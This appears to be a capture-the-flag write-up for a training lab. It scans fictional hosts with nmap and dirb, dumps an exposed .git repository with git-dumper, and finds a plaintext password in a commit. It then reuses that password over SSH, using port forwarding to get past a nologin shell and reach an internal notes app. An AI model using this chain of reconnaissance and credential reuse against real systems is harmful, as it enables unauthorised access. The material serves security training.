

# Johny's notes (3 points)

Hi, TCC-CSIRT analyst,

admin Johny is testing a new notebook to take notes, as any good administrator
would. He thinks he has correctly secured the application so that only he can
access it and no one else. Your task is to check if he made any security
lapses.

* Admin Johny uses workstation `johny-station.cypherfix.tcc`.
* Application for notes runs on `notes.cypherfix.tcc`.

See you in the next incident!

## Hints

* `/usr/sbin/nologin` is a good servant but a bad master.

## Solution

We can start with exploring the open ports on given hosts.

```console
$ nmap -p - johny-station.cypherfix.tcc
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-26 11:02 CEST
Nmap scan report for johny-station.cypherfix.tcc (10.99.24.32)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 21.84 seconds

$ nmap -p - notes.cypherfix.tcc
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-26 11:02 CEST
Nmap scan report for notes.cypherfix.tcc (10.99.24.33)
Host is up (0.020s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
8080/tcp open  http-proxy
8081/tcp open  blackice-icecap

Nmap done: 1 IP address (1 host up) scanned in 15.36 seconds
```

If we try to access `notes.cypherfix.tcc` we'll be immediately redirected to
`http://notes.cypherfix.tcc:8080/`.

If we check the sources we'll see that the redirection is being done in
JavaScript and does not necessarily lead to `notes.cypherfix.tcc` but to the
host name used to access the notes.

```console
$ curl notes.cypherfix.tcc
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Redirect Example</title>
    <script type="text/javascript">
        // JavaScript function to redirect to another URL with a different port
        function redirectToNewPort() {
            // Extract current location details
            var currentHost = window.location.hostname; // Get current host
            var newPort = 8080; // Define new port

            // Construct new URL with the new port
            var newUrl = window.location.protocol + "//" + currentHost + ":" + newPort + window.location.pathname;

            // Redirect to the new URL
            window.location.href = newUrl;
        }

        // Call the function to perform the redirection
        window.onload = redirectToNewPort;
    </script>
</head>
<body>
    <h1>Redirecting...</h1>
    <p>If you are not redirected automatically, <a href="javascript:redirectToNewPort()">click here</a>.</p>
</body>
</html>
```

Let's explore the webserver running at the station instead.

```console
$ dirb http://johny-station.cypherfix.tcc

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Oct 26 11:05:58 2024
URL_BASE: http://johny-station.cypherfix.tcc/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://johny-station.cypherfix.tcc/ ----
+ http://johny-station.cypherfix.tcc/~bin (CODE:403|SIZE:292)
+ http://johny-station.cypherfix.tcc/~lp (CODE:403|SIZE:292)
+ http://johny-station.cypherfix.tcc/~mail (CODE:403|SIZE:292)
+ http://johny-station.cypherfix.tcc/~nobody (CODE:403|SIZE:292)
+ http://johny-station.cypherfix.tcc/~sys (CODE:403|SIZE:292)
+ http://johny-station.cypherfix.tcc/index.html (CODE:200|SIZE:10701)
+ http://johny-station.cypherfix.tcc/server-status (CODE:403|SIZE:292)

-----------------
END_TIME: Sat Oct 26 11:06:43 2024
DOWNLOADED: 4612 - FOUND: 7
```

We can see that there are some directories that the home directories for users
seem to be exposed, so we can try checking if `~johny` exists too. Indeed the
directory exists and contains `flatnotes` sources.

If we run `dirb` once again, this tim against the `flatnotes` directory, we'll
discover that there's also `.git/` directory present.

```console
$ dirb  http://johny-station.cypherfix.tcc/~johny/flatnotes

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Oct 26 11:15:36 2024
URL_BASE: http://johny-station.cypherfix.tcc/~johny/flatnotes/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://johny-station.cypherfix.tcc/~johny/flatnotes/ ----
+ http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/HEAD (CODE:200|SIZE:24)
==> DIRECTORY: http://johny-station.cypherfix.tcc/~johny/flatnotes/client/
==> DIRECTORY: http://johny-station.cypherfix.tcc/~johny/flatnotes/docs/
+ http://johny-station.cypherfix.tcc/~johny/flatnotes/LICENSE (CODE:200|SIZE:1090)
==> DIRECTORY: http://johny-station.cypherfix.tcc/~johny/flatnotes/server/

---- Entering directory: http://johny-station.cypherfix.tcc/~johny/flatnotes/client/ ----
==> DIRECTORY: http://johny-station.cypherfix.tcc/~johny/flatnotes/client/assets/
==> DIRECTORY: http://johny-station.cypherfix.tcc/~johny/flatnotes/client/components/
+ http://johny-station.cypherfix.tcc/~johny/flatnotes/client/index.html (CODE:200|SIZE:1112)
==> DIRECTORY: http://johny-station.cypherfix.tcc/~johny/flatnotes/client/public/
==> DIRECTORY: http://johny-station.cypherfix.tcc/~johny/flatnotes/client/views/

---- Entering directory: http://johny-station.cypherfix.tcc/~johny/flatnotes/docs/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://johny-station.cypherfix.tcc/~johny/flatnotes/server/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://johny-station.cypherfix.tcc/~johny/flatnotes/client/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://johny-station.cypherfix.tcc/~johny/flatnotes/client/components/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://johny-station.cypherfix.tcc/~johny/flatnotes/client/public/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://johny-station.cypherfix.tcc/~johny/flatnotes/client/views/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Sat Oct 26 11:17:07 2024
DOWNLOADED: 9224 - FOUND: 3
```

Now we can use e.g. [git-dumper] to retrieve the repository.

```console
$ git-dumper http://johny-station.cypherfix.tcc/~johny/flatnotes flatnotes
[-] Testing http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/HEAD [200]
[-] Testing http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.gitignore [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/logs/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/objects/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/HEAD [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/description [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/packed-refs [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/COMMIT_EDITMSG [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/index [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/branches/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/config [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/info/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/refs/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/logs/HEAD [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/logs/refs/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/objects/info/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/objects/dc/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/objects/pack/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/info/exclude [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/objects/47/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/objects/ed/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/commit-msg.sample [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/fsmonitor-watchman.sample [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/pre-commit.sample [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/pre-merge-commit.sample [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/post-update.sample [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/pre-push.sample [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/pre-receive.sample [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/refs/heads/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/refs/remotes/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/objects/dc/344f007390d239cbae812eb5d58d683a9af6a6 [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/update.sample [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/refs/tags/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/hooks/push-to-checkout.sample [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/logs/refs/heads/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/logs/refs/remotes/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/objects/pack/pack-ac8145304f29c59ff8bdd4bf94d41c4b53284e58.idx [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/objects/47/dab1229b328b6ec01c69c02c1a77d2651a2bf5 [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/objects/pack/pack-ac8145304f29c59ff8bdd4bf94d41c4b53284e58.pack [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/objects/ed/c31a067f706a617ff1f3343f9f971b3d677a06 [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/refs/heads/develop [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/logs/refs/heads/develop [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/refs/remotes/origin/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/logs/refs/remotes/origin/ [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/refs/remotes/origin/HEAD [200]
[-] Fetching http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/logs/refs/remotes/origin/HEAD [200]
[-] Running git checkout .
Updated 83 paths from the index
```

Once the repository is retrieved, we can check the history.

```console
$ git log
commit 47dab1229b328b6ec01c69c02c1a77d2651a2bf5 (HEAD -> develop)
Author: johny <johny@cypherfix.tcc>
Date:   Thu Oct 24 07:50:44 2024 +0000

    User password for http://notes.cypherfix.tcc:8080

commit 43f1b8d3e5aeb7c4a2ee7d74da66aeb4fbe1c5b1 (origin/develop, origin/HEAD)
Merge: 06ad8e8 9625f15
Author: Adam Dullage <adam@dullage.com>
Date:   Thu Oct 17 14:34:11 2024 +0100

    Merge pull request #251 from waschmittel/patch-1

    make cmd+Enter work on Mac as expected

...
```

The last commit looks interesting so we can take a look at it

```diff
$ git show
commit 47dab1229b328b6ec01c69c02c1a77d2651a2bf5 (HEAD -> develop)
Author: johny <johny@cypherfix.tcc>
Date:   Thu Oct 24 07:50:44 2024 +0000

    User password for http://notes.cypherfix.tcc:8080

diff --git a/README.md b/README.md
index 15ea2e5..edc31a0 100644
--- a/README.md
+++ b/README.md
@@ -68,7 +68,7 @@ docker run -d \
   -e "PGID=1000" \
   -e "FLATNOTES_AUTH_TYPE=password" \
   -e "FLATNOTES_USERNAME=user" \
-  -e "FLATNOTES_PASSWORD=changeMe!" \
+  -e "FLATNOTES_PASSWORD=gojohnygo" \^M
   -e "FLATNOTES_SECRET_KEY=aLongRandomSeriesOfCharacters" \
   -v "$(pwd)/data:/data" \
   -p "8080:8080" \
```

Now we know the password for the flatnotes application, however, perhaps even
in this case Johny likes to reuse passwords, so let's try to use it to login
to `johny-station`.

```console
$ ssh johny@johny-station.cypherfix.tcc
johny@johny-station.cypherfix.tcc's password:
Linux 09cbf1e9b00d 6.1.0-22-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.94-1 (2024-06-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Oct 26 09:23:16 2024 from 10.200.0.19
This account is currently not available.
Connection to johny-station.cypherfix.tcc closed.
```

The password seems to be correct, however, the user cannot log in. As the hint
indicates, `/usr/sbin/nologin` seems to be used as shell. While this prevents
us from logging in, it does not prevent us from doing other things, e.g. port
forwarding. Let's try to forward a local port to `notes.cypherfix.tcc:8080` to
check if the reason for app not responding was not caused by some restrictions
on source IPs.

```console
$ ssh -N -L8080:notes.cypherfix.tcc:8080 johny@johny-station.cypherfix.tcc
johny@johny-station.cypherfix.tcc's password:
```

The port seems to be open, but when we try to access `http://localhost:8080` an
error message appears in the console where we started `ssh` command

```console
channel 2: open failed: connect failed: Temporary failure in name resolution
```

It seems that the name cannot be resolved, so let's try to open the tunnel
again, this time using the IP address (`10.99.24.33`) instead of hostname
(`notes.cypherfix.tcc`).

```console
$ ssh -N -L8080:10.99.24.33:8080 johny@johny-station.cypherfix.tcc
johny@johny-station.cypherfix.tcc's password:
```

This time the notes application opens and asks for username and password. Since
we've already retrieved those details when exploring git history earlier, we
can log in (username: `user`, password: `gojohnygo`) and retrieve the flag from
the notes.



[git-dumper]: https://github.com/arthaud/git-dumper
